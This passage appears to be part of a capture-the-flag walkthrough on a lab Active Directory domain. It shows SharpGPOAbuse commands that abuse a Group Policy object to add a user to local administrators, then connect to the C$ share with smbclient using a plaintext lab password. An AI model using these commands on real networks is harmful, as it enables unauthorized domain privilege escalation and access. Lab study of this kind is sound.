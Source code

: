 - Copy SharpGPOAbuse.exe to the Windows victim machine and run:

```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"

```

![image37](../resources/b9a90b41a8b64b3ea1653cf7a2a54ed8.png)

```bash
gpupdate /force

```
- Check localgroup:

```bash
net localgroup administrators

```

![image38](../resources/cdda20f257454e0cafc8eee8ede93a9e.png)

- Now that we have admin privileges - Connect to the C\$ share:

```bash
smbclient //10.10.53.145/c$ -U vulnnet/enterprise-security%sand_0873959498

```
